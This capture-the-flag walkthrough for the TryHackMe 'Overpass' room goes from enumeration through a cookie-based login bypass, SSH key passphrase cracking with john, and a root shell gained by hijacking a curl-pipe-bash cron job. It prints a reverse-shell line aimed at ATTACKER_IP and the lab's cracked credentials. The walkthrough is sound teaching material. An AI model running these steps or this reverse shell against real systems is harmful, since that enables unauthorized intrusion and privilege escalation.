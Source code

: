 ```yaml
---
title: "Overpass"
tags:
  - Easy
  - Linux
  - nmap
  - john
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |    Easy    |  | 10.10.138.135 |  | [Overpass](https://tryhackme.com/room/overpass) |  |

---

First, I ran a basic `nmap` scan to enumerate the services that are running on the target machine.

```
sudo nmap -sC -sV -vv 10.10.138.135
```

 **Results:**

![screenshot1](../assets/images/overpass/screenshot1.png)

From the results, we can see that there are two open ports: **SSH (22)** and **HTTP (80)**.

Navigating to the HTTP website, we can see the following page:

![screenshot2](../assets/images/overpass/screenshot2.png)

Looks like the home page for a password manager called 'Overpass'.

Before carrying out our happy-path enumeration, let's use `gobuster` to see if we can enumerate any hidden directories:

```
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as .php in the scan.

With Gobuster up and running, we can start exploring the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:

![screenshot3](../assets/images/overpass/screenshot3.png)

This seems to imply that their 'military grade cryptography' is actually one that was used by Romans. Furthermore, it doesn't seem to be very secure by the looks of it. Could it be the Caesar Cipher? Let's keep this in mind for now!

Next, on the 'Downloads' page, there are some files that we can download.

![screenshot4](../assets/images/overpass/screenshot4.png)

Before looking at those files, let's check on the results of Gobuster:

![screenshot5](../assets/images/overpass/screenshot5.png)

Nice, looks like Gobuster has managed to find an interesting javascript file: **login.js**. 

It has also found an admininistrator login page at **/admin**:

![screenshot6](../assets/images/overpass/screenshot6.png)

I tried some basic SQL injections but they did not work. However, I realized that the login functionality was actually exposed in the **login.js** file that was enumerated by Gobuster earlier: 

![screenshot7](../assets/images/overpass/screenshot7.png)

Looking more closely at the `login()` function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint '/api/login'. The response is then stored in a variable 'statusOrCookie'. There is then a check to verify whether the user is authenticated or not. 

However, looking at the else statement which authenticates the user, if we simply create a **'SessionToken'** cookie and set any random value,  we will be redirected to the /admin page!

Let's test this out using the browser's developer tools. In there, I created a cookie called 'SessionToken' and assigned a random value to it:

![screenshot8](../assets/images/overpass/screenshot8.png)

Upon refreshing the page, we can see that we have been authenticated and have gained access into the administrator area:

![screenshot9](../assets/images/overpass/screenshot9.png)

There is a message along with an RSA private key. This key will probably be used to log into the SSH server that is also running on the machine. The username that uses this key could also be **james**, as he is mentioned explicitly in the message.

Let's copy this private key and try to ssh into the machine.

![screenshot10](../assets/images/overpass/screenshot10.png)

Unfortunately we need a passphrase. We can try cracking the passphrase using `john`, which is a powerful hash cracking tool. 

First, we convert the key into a format that can be cracked by `john`. To do so, we use an auxiliary tool called `ssh2john`:

```
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

Next, we use `john` on the output file from the previous command:

```
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**

![screenshot11](../assets/images/overpass/screenshot11.png)

Nice, `john` manages to crack james' private key passphrase:

> james13 

With that, we can log into the SSH server.

![screenshot12](../assets/images/overpass/screenshot12.png)

Now that we're logged in, we can obtain the user flag from james' home directory.

---

Next, let's find a way to escalate our privileges. 

I noticed that there was a **todo.txt** file located in james' home directory:

![screenshot13](../assets/images/overpass/screenshot13.png)

It seems that james' password is stored in the password manager (Overpass) that he implemented. I used the `find` command to locate the Overpass binary on the target machine:

```
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**.

I executed the binary and managed to obtain james's password by using the 'Retrieve All Passwords' option:

![screenshot14](../assets/images/overpass/screenshot14.png)

james' password is: 

> saydrawnlyingpicture

Next, let's see what **sudo privileges** james has on this machine:

![screenshot15](../assets/images/overpass/screenshot15.png)

Uh oh, looks like james does not have any sudo privileges at all. We'll need to find another privesc method.

To automate the privesc enumeration, I'll be using [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), which is a privilege escalation automation script. After running the script, LinPEAS managed to find an interesting cronjob:

![screenshot16](../assets/images/overpass/screenshot16.png)

---

**Understanding cronjobs**

Below is an example cronjob:

```
* * * * * root rm /home/someuser/tmp*
```

The `*` symbols indictate the frequency of the cronjob. The name placed after the symbols refers to the user that will run the job. Finally, the command to be run will be placed after that. In the case of the example above, the `rm /home/someuser/tmp/*` command will be run by root every minute (as shown by 5 `*` symbols).

---

How about the cronjob that was found by LinPEAS?

![screenshot18](../assets/images/overpass/screenshot18.png)

This cronjob curls a 'buildscript.sh' file from 'overpass.thm/downloads/src' every minute and pipes it over to `bash`, which will execute it. The important thing to note is that this command is executed by the root user. 

We can exploit this by creating our own buildscript.sh file, which sets up a reverse shell that connects back to our local machine. We then ensure that when the target machine connects to 'overpass.thm', it is actually connecting to us. Then, when our buildscript.sh file is downloaded and executed by the target machine, it will be executed by root, hence opening a root reverse shell.

Let's set this up!

First, I needed to know what IP address 'overpass.thm' pointed to. Looking at the /etc/hosts file on the target machine, we actually see that 'overpass.thm' points to localhost:

![screenshot19](../assets/images/overpass/screenshot19.png)

I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to 'overpass.thm', the target machine will check the /etc/hosts file and direct the request to my machine instead.

Next, I created a bash script called 'buildscript.sh' with the following command inside:

```
bash -i >& /dev/tcp/ATTACKER_IP/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my local machine.

I placed this script inside a '/downloads/src' directory within my machine. I then started up a Simple HTTP Server on port 80 using Python.

Finally, I set up a netcat listener on port 8080 using the command:

```
nc -lvnp 8080
```

After a minute has passed, we can see that my buildscript.sh file was indeed downloaded by the target machine:

![screenshot20](../assets/images/overpass/screenshot20.png)

It was then executed, successfully opening the reverse shell:

![screenshot21](../assets/images/overpass/screenshot21.png)

With that, we've gained access to the target machine as root!

We can then obtain the root flag found in /root.


